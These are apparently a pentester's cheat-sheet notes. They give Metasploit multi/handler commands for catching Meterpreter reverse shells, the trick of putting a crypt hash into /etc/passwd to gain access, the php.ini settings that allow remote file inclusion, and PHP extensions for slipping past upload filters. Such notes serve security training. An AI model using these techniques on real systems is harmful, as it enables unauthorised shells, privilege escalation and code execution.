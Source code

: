 
-- create the multi handler :


use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
// payload can be the meterpreter here.




https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
https://netsec.ws/?p=331
============================================
203
world writable directories


/tmp /dev/shm


===============================================
204
/etc/passwd






1. Username.
2. Password. The ‘x’ means that the actual password is stored in the shadow password file. You can replace the x with a crypt hash from the password and a salt.
3. User identifier.
4. Group identifier, contains the primary user group.
5. Gecos field, a user record containing information about the user such as the full name.
6. Path to the home directory.
7. Command line shell when the user logs in.


==============================================
205


RFI


for this to work following should be enabled ion php.ini file




allow_url_fopen = On
allow_url_include = On


usually php.ini is at phpinfo.php
or /etc/php5/cgi/php.ini


nano /etc/php/7.0/apache2/php.ini
nano /etc/php5/apache2/php.ini
===================================================
206
php popular extensions
php
php4
pht
phtml
